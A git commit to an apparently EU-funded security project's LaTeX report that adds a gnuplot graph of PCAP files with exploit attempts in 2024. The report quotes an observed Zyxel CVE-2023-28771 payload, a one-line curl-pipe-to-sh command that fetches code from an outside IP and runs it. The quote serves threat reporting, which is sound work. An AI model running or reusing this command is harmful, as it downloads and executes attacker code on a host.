

Before and after one commit to ngsoti/ngsoti, a LaTeX document (deliverables/D2.2/D2-2-NGSOTI-data-key-findings-report-1.tex, which reads deliverables/D2.2/D2-2-NGSOTI-data-key-findings-report-1-content.tex, deliverables/D2.2/img/exploits.tex): part of page 11 of 14 before the commit and two parts of pages 11 and 12 of 15 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
chg:[D2.2] added mass exploitation graph

```diff
--- a/deliverables/D2.2/D2-2-NGSOTI-data-key-findings-report-1-content.tex
+++ b/deliverables/D2.2/D2-2-NGSOTI-data-key-findings-report-1-content.tex
@@ -39,7 +39,19 @@ DNS misconfigurations are another significant finding. When a secondary DNS reso
 % Chapter 5: Example Cases
 \chapter{Example Cases}
 \section{Mass Exploitation of Devices}
-Mass exploitation campaigns are a critical concern in cybersecurity. Attackers often exploit known vulnerabilities as soon as they are disclosed. A notable example observed during the project was the exploitation of the Zyxel router vulnerability (CVE-2023-28771), which allowed attackers to bypass authentication. The exploitation involved malicious payloads, such as the following command executed on vulnerable systems:
+Mass exploitation campaigns are a critical concern in cybersecurity. Attackers often exploit known vulnerabilities as soon as they are disclosed.
+
+Figure \ref{countedexploits} illustrates the evolution of exploits discovered over time in the dataset.
+
+\begin{figure}
+    \input{img/exploits.tex}
+    \caption{Discovered Exploits}
+    \label{countedexploits}
+\end{figure}
+% Chapter 4: Observations
+
+
+A notable example observed during the project was the exploitation of the Zyxel router vulnerability (CVE-2023-28771), which allowed attackers to bypass authentication. The exploitation involved malicious payloads, such as the following command executed on vulnerable systems:
 \begin{verbatim}
 bash -c "curl http://92.60.77.85/z -o-|sh";
 \end{verbatim}
--- /dev/null
+++ b/deliverables/D2.2/img/exploits.tex
@@ -0,0 +1,115 @@
+% GNUPLOT: LaTeX picture with Postscript
+\begingroup
+  \makeatletter
+  \providecommand\color[2][]{%
+    \GenericError{(gnuplot) \space\space\space\@spaces}{%
+      Package color not loaded in conjunction with
+      terminal option `colourtext'%
+    }{See the gnuplot documentation for explanation.%
+    }{Either use 'blacktext' in gnuplot or load the package
+      color.sty in LaTeX.}%
+    \renewcommand\color[2][]{}%
+  }%
+  \providecommand\includegraphics[2][]{%
+    \GenericError{(gnuplot) \space\space\space\@spaces}{%
+      Package graphicx or graphics not loaded%
+    }{See the gnuplot documentation for explanation.%
+    }{The gnuplot epslatex terminal needs graphicx.sty or graphics.sty.}%
+    \renewcommand\includegraphics[2][]{}%
+  }%
+  \providecommand\rotatebox[2]{#2}%
+  \@ifundefined{ifGPcolor}{%
+    \newif\ifGPcolor
+    \GPcolortrue
+  }{}%
+  \@ifundefined{ifGPblacktext}{%
+    \newif\ifGPblacktext
+    \GPblacktexttrue
+  }{}%
+  % define a \g@addto@macro without @ in the name:
+  \let\gplgaddtomacro\g@addto@macro
+  % define empty templates for all commands taking text:
+  \gdef\gplbacktext{}%
+  \gdef\gplfronttext{}%
+  \makeatother
+  \ifGPblacktext
+    % no textcolor at all
+    \def\colorrgb#1{}%
+    \def\colorgray#1{}%
+  \else
+    % gray or color?
+    \ifGPcolor
+      \def\colorrgb#1{\color[rgb]{#1}}%
+      \def\colorgray#1{\color[gray]{#1}}%
+      \expandafter\def\csname LTw\endcsname{\color{white}}%
+      \expandafter\def\csname LTb\endcsname{\color{black}}%
+      \expandafter\def\csname LTa\endcsname{\color{black}}%
+      \expandafter\def\csname LT0\endcsname{\color[rgb]{1,0,0}}%
+      \expandafter\def\csname LT1\endcsname{\color[rgb]{0,1,0}}%
+      \expandafter\def\csname LT2\endcsname{\color[rgb]{0,0,1}}%
+      \expandafter\def\csname LT3\endcsname{\color[rgb]{1,0,1}}%
+      \expandafter\def\csname LT4\endcsname{\color[rgb]{0,1,1}}%
+      \expandafter\def\csname LT5\endcsname{\color[rgb]{1,1,0}}%
+      \expandafter\def\csname LT6\endcsname{\color[rgb]{0,0,0}}%
+      \expandafter\def\csname LT7\endcsname{\color[rgb]{1,0.3,0}}%
+      \expandafter\def\csname LT8\endcsname{\color[rgb]{0.5,0.5,0.5}}%
+    \else
+      % gray
+      \def\colorrgb#1{\color{black}}%
+      \def\colorgray#1{\color[gray]{#1}}%
+      \expandafter\def\csname LTw\endcsname{\color{white}}%
+      \expandafter\def\csname LTb\endcsname{\color{black}}%
+      \expandafter\def\csname LTa\endcsname{\color{black}}%
+      \expandafter\def\csname LT0\endcsname{\color{black}}%
+      \expandafter\def\csname LT1\endcsname{\color{black}}%
+      \expandafter\def\csname LT2\endcsname{\color{black}}%
+      \expandafter\def\csname LT3\endcsname{\color{black}}%
+      \expandafter\def\csname LT4\endcsname{\color{black}}%
+      \expandafter\def\csname LT5\endcsname{\color{black}}%
+      \expandafter\def\csname LT6\endcsname{\color{black}}%
+      \expandafter\def\csname LT7\endcsname{\color{black}}%
+      \expandafter\def\csname LT8\endcsname{\color{black}}%
+    \fi
+  \fi
+    \setlength{\unitlength}{0.0500bp}%
+    \ifx\gptboxheight\undefined%
+      \newlength{\gptboxheight}%
+      \newlength{\gptboxwidth}%
+      \newsavebox{\gptboxtext}%
+    \fi%
+    \setlength{\fboxrule}{0.5pt}%
+    \setlength{\fboxsep}{1pt}%
+    \definecolor{tbcol}{rgb}{1,1,1}%
+\begin{picture}(7200.00,5040.00)%
+    \gplgaddtomacro\gplbacktext{%
+      \csname LTb\endcsname%%
+      \put(814,1417){\makebox(0,0)[r]{\strut{}$0$}}%
+      \put(814,1911){\makebox(0,0)[r]{\strut{}$50$}}%
+      \put(814,2404){\makebox(0,0)[r]{\strut{}$100$}}%
+      \put(814,2898){\makebox(0,0)[r]{\strut{}$150$}}%
+      \put(814,3392){\makebox(0,0)[r]{\strut{}$200$}}%
+      \put(814,3885){\makebox(0,0)[r]{\strut{}$250$}}%
+      \put(814,4379){\makebox(0,0)[r]{\strut{}$300$}}%
+      \put(956,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-01-01}}}%
+      \put(1591,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-02-01}}}%
+      \put(2165,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-03-01}}}%
+      \put(2800,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-04-01}}}%
+      \put(3395,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-05-01}}}%
+      \put(4029,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-06-01}}}%
+      \put(4624,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-07-01}}}%
+      \put(5259,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-08-01}}}%
+      \put(5874,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-09-01}}}%
+      \put(6488,1285){\rotatebox{-45}{\makebox(0,0)[l]{\strut{}2024-10-01}}}%
+    }%
+    \gplgaddtomacro\gplfronttext{%
+      \csname LTb\endcsname%%
+      \put(209,2898){\rotatebox{-270}{\makebox(0,0){\strut{}Number of files}}}%
+      \put(3874,154){\makebox(0,0){\strut{}Date}}%
+      \csname LTb\endcsname%%
+      \put(3874,4709){\makebox(0,0){\strut{}PCAP files with one or more exploit attempts}}%
+    }%
+    \gplbacktext
+    \put(0,0){\includegraphics[width={360.00bp},height={252.00bp}]{img/exploits}}%
+    \gplfronttext
+  \end{picture}%
+\endgroup
```
Also changed, not shown: deliverables/D2.2/img/exploits.eps (added).
